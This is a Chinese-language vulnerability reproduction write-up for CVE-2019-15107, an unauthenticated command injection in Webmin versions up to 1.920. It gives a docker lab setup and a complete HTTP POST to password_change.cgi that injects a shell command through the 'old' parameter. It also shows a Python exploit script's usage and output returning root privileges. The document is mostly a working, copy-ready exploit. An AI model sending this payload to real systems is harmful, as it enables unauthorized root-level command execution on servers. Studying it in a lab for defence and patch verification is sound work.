 ```yaml
---
title: "（CVE-2019-15107）Webmin 远程命令执行漏洞"
id: zhfly3234
---
```


# （CVE-2019-15107）Webmin 远程命令执行漏洞

## 一、漏洞简介

Webmin是一个用于管理类Unix系统的管理配置工具，具有Web页面。在其找回密码页面中，存在一处无需权限的命令注入漏洞，通过这个漏洞攻击者即可以执行任意系统命令。

## 二、漏洞影响

Webmin <= 1.920

## 三、复现过程

### 环境搭建

执行如下命令，启动webmin 1.910：

```
docker-compose up -d 
```

执行完成后，访问https://0-sec.org:10000，忽略证书后即可看到webmin的登录页面。

### 复现

参考链接中的数据包是不对的，经过阅读代码可知，只有在发送的user参数的值不是已知Linux用户的情况下（而参考链接中是user=root），才会进入到修改/etc/shadow的地方，触发命令注入漏洞。

发送如下数据包，即可执行命令id：

```
POST /password_change.cgi HTTP/1.1
Host: 0-sec.org:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://your-ip:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60 `user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2` 
```

![image](../img/d1f3abf84be36f0a63da9969e1ab3546.png)

### python usage:

python CVE_2019_15107.py https://0-sec.org:10000 cmd

```
C:\Users\CTF\Desktop>python CVE_2019_15107.py https://10.10.20.166:10000 id

* * *

(  ____ |\     /|(  ____ \     / ___   )(  __   )/  \   / ___ \     /  \  (  ____ /  \  (  __   )/ ___  

| (    /| )   ( || (    /     /   )  || (  )  |/) ) ( (   ) )    /) ) | (    //) ) | (  )  |/   )  )

| |      | |   | || (__             /   )| | /   |  | | ( (***) |      | | | (***_    | | | | /   |    /  /

| |      ( (   ) )|  **)          */   / | (/ /) |  | |  _***  |      | | (_____ \   | | | (/ /) |   /  /

| |       \ _/ / | (            /   */  |   / | |  | |       ) |      | |       ) )  | | |   / | |  /  /

| (****/\  \   /  | (****/\     (   (**/|  (**) |__) (*/_***) )    __) (*/_***) )**) (*|  (*_) | /  /

(*******/   _/   (*******/*****_******/(*******)_***/_*****/*****_***/_*****/ _***/(*****______) _/

(*****)                              (***__)

python By jas502n

vuln_url= [https://0-sec.org:10000/password_change.cgi](https://0-sec.org:10000/password_change.cgi) `Command Result = uid=0(root) gid=0(root) groups=0(root)` 
```

## 四、参考链接

> https://www.pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html
> https://www.exploit-db.com/exploits/47230
> https://blog.firosolutions.com/exploits/webmin/